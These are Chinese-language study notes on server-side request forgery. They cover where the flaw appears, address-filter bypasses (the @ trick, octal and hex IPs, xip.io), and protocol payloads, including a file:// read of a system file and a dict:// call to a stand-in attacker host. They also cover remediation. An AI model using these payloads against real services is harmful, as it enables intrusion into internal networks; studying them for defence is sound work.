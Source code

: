 

举几个例子：



1. 在线识图，在线文档翻译，分享，订阅等，这些有的都会发起网络请求。
2. 根据远程URL上传，静态资源图片等，这些会请求远程服务器的资源。
3. 数据库的比如mongodb的copyDatabase函数，这点看猪猪侠讲的吧，没实践过。
4. 邮件系统就是接收邮件服务器地址这些地方。
5. 文件就找ImageMagick，xml这些。
6. 从URL关键字中寻找，比如：source,share,link,src,imageurl,target等。



#### 绕过姿势


1. `http://example.com@127.0.0.1`
2. 利用IP地址的省略写法绕过,[::]绕过localhost
3. DNS解析 [http://127.0.0.1.xip.io/](http://127.0.0.1.xip.io/)  可以指向任意ip的域名：xip.io
4. 利用八进制IP地址绕过,利用十六进制IP地址,绕过利用十进制的IP地址绕过



#### 利用协议

> [https://www.secpulse.com/archives/70471.html](https://www.secpulse.com/archives/70471.html)

接受ua为curl的时候，支持的协议有

使用`curl -v http://xx.com/ssrf.php?url=sxxx`

```plain
file://
ssrf.php?url=file:///etc/password
Dict://
dict://<user-auth>@<host>:<port>/d:<word>
ssrf.php?url=dict://attacker:11111/
SFTP://
ssrf.php?url=sftp://example.com:11111/
TFTP://
ssrf.php?url=tftp://example.com:12346/TESTUDPPACKET
LDAP://
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
Gopher://
```

#### 漏洞修复

> [https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html](https://www.leavesongs.com/PYTHON/defend-ssrf-vulnerable-in-python.html)

1.  检查是否为内网IP地址  
    绕过方法:  
    利用八进制IP地址绕过  
    利用十六进制IP地址绕过  
    利用十进制的IP地址绕过  
    利用IP地址的省略写法绕过  
    最好的做法：IP地址转换为整数再进行判断 
2.  获取真正请求的host 
    1.  如何正确的获取用户输入的URL的Host？  
        最常见的就是，使用http://233.233.233.233@10.0.0.1:8080/、http://10.0.0.1#233.233.233.233这样的URL，让后端认为其Host是233.233.233.233，实际上请求的却是10.0.0.1。这种方法利用的是程序员对URL解析的错误，有很多程序员甚至会用正则去解析URL。使用urllib.parse可以解析真正的hostname 
    2.  只要Host只要不是内网IP即可吗？  
        host可能为ip,可能为域名，利用xip.io绕过。方法：判断是否为http协议，获取url的host，再解析该host，将解析到的ip再进行检查 
    3.  只要Host指向的IP不是内网IP即可吗？  
        不一定，可能会30x跳转 
